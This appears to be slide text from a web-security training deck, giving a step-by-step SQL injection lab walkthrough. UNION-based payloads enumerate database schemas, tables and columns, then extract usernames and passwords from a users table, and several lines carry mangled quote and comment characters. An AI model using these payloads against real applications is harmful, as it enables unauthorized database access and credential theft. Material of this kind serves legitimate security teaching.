

Use the following payload to retrieve the list of database:
	' UNION select schema_name,NUll from INFORMATION_SCHEMA.SCHEMATA--
2.Use the following payload to retrieve the list of tables in the database:
	'UNION SELECT table_name,NULL FROM information_schema.tables--
schema_name=database
information_schema=databaseName

3.Use the following payload (replacing the table name) to retrieve the details of the columns in the table
'UNION SELECT column_name ,NULL FROM information_schema.columns WHERE table_name='users_uvlvoo'—
4. To find information of username and password
	‘ UNION SELECT username_jovsyx, password_abwqcw FROM users_uvlvoo–
    concate: ' UNION SELECT NULL,username || '---->' || password FROM users--